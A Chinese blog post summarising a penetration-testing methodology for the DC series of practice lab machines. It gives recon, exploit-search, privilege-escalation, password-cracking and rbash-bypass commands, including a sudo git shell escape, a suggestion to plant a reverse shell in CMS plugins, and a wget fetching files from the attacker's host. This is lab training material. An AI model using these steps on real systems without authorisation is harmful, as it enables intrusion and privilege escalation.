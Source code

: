 ```yaml
---
title: DC系列靶机总结
date: 2021/12/12
tags: [walkthrough, 渗透测试]
categories: 渗透测试
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_17.jpg
---
```




# DC系列靶机总结

## (一) 信息收集

- 扫描局域网内靶机地址:

```
sudo arp-scan -l
```

- 扫描靶机开放的端口以及详细的信息:

```
nmap -A -sV xxx_ip (查CMS种类)
```

- 扫描web目录(,寻找登录后台, 寻找可疑文件):

```
dirb  //一般
dirbuster  //可以使用dirb的字典
dirsearch  //较好
goburster
```

- 眼光不应该局限于页面的主要内容,可以使用Google去查询靶机web或其他有关于靶机的内容



## (二) 漏洞搜寻

- 首先进入靶机HTTP服务(如果有的话), 尝试sql注入, 密码暴力破解(八成不行)

- 从搜寻的CMS(如果能发现)寻找CMS的漏洞 //Google是个好帮手
- 使用相应的CMS扫描工具对靶机IP继续进行扫描,查找用户以及相关的信息
- 从网站中看看有没有什么可以提交的页面,发掘是否有文件包含漏洞
- 如果进入CMS管理系统,查看是否可以使用或下载PHP插件,在PHP页面中插入反弹shell, 或者寻找里面插件的漏洞

- 在网站中发送信息,如果可疑,用brupsuite拦截,并修改发送的值, 尝试sql注入以及文件包含

- 文件包含漏洞查询时可以使用模糊测试工具wfuzz, 查看输入的命令被包含在哪个文件中

- 使用searchsploit查询漏洞文件

````
searchsploit XXX   //搜索漏洞  
searchsploit -m exp_name  //查询漏洞所在地址
````



 

## (三) 权限提升

- 使用msf或者nc等工具登录靶机控制界面可能没有交互式shell这时需要:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看是否能进行suid提权

```
find / -user root -perm -4000 -print 2>/dev/null
```

- 查看当前用户是否具有某些root用户权限:
- 向文件中添加内容直接获得root权限,
- 使用 sudo  xxx 执行命令`(别忘记前面加sudo)`

```
sudo -l
```

- 查看里面有没有什么特殊的文件, 使用漏洞搜寻查找是否具有漏洞,是否可以据此提权
- git提权(sudo -l发现)

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```



## (四) 密码破解

- 在得知CMS类型的时候就可以使用相关的工具进行密码破解,比如wp-scan
- 使用hydra进行破解(一般破解ssh密码时使用这个
- cewl 抓取网站信息来充当密码
- john破解哈希值

## (五) 杂记

- rbash绕过(vi方法)

```
//选择一个文件,使用vi打开
//末行模式下:
(1)  :set shell=/bin/bash
(2)  :shell
```

- 配置hosts文件,有时DNS无法解析靶机地址,这时我们就需要自己在攻击机器上添加靶机的IP以及主机名

```
cd /etc/hosts
```

- 靶机之间的文件传输

```
// 使用python在攻击机器上开启http服务,在靶机上wget下载.注意攻击机器http服务的开启要在传送的文件同一目录下,靶机的下载要在/tmp文件夹或其他具有弱权限的文件夹下下载

//攻击机器 python2
python -m SimpleHTTPServer xxx_port
//攻击机器 python3
python -m http.server xxx_port

//靶机
wget http://xxxx_ip:xx_port/xxx_file
```

- 注意查看靶机里面邮件内容可能有惊喜

